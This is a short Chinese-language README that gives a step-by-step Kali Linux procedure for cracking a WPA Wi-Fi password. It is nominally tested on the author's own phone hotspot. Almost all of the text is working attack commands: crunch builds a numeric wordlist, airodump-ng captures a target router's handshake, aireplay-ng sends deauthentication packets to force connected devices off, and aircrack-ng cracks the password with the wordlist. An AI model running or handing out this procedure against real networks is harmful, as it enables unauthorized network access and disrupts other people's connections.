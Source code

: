 # 破解-wifi
kali的小应用
# 要求:
    一台装有kali的电脑；
    一部手机，
    一个支持监控的无线网卡(一般笔记本都支持)；
    一个强大的字典；
    人需要有时间和耐心；
# 手机开热点，密码设纯数字8到10位
# 准备字典
    这里我们自己建一个简单字典来用会比较快，可以验证是否成功，
    先在/etc下创建一个字典，使用crunch命令创建
      crunch 8 10 1234567890. -o /etc/zidian.txt
# 首先断开连接的wifi
    在终端中执行：airmon-ng
# 开启无线网卡的监控模式
    airmon-ng start wlan0
    之后网卡接口会变成wlan0mon
# 查看wifi网络
    airodump-ng wlan0mon
    CH 是频道号，BSSID是网卡物理地址，ESSID是WiFi名称
    按CTRL+C结束
# 抓取握手包
    目标路由CH号为 1 ，mac为 11：22：33：44：55：66
    命令airodump-ng -c 目标CH号 --bssid 目标mac -w 保存位置 wlan0mon
    airodump-ng -c 1 --bssid 11:22:33:44:55:66 -w /etc/ wlan0mon
    成功后，按CTRL+C结束
# 等不到有人连WiFi，抓不到包，只能强制设备连接
    打开另一个终端，运行一下命令
    -0 是发起攻击，2 是表示断开后ping的次数，次数越多，设备重连的验证时间越长，-a 是指定路由，-c 指定断开设备 
    aireplay-ng -0 2 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 wlan0mon
# 得到握手包后，可以关闭监控模式了
    airmon-ng stop wlan0mon
# 开始破解密码
    aircrack-ng -w /etc/zidian.txt /etc/*.cap
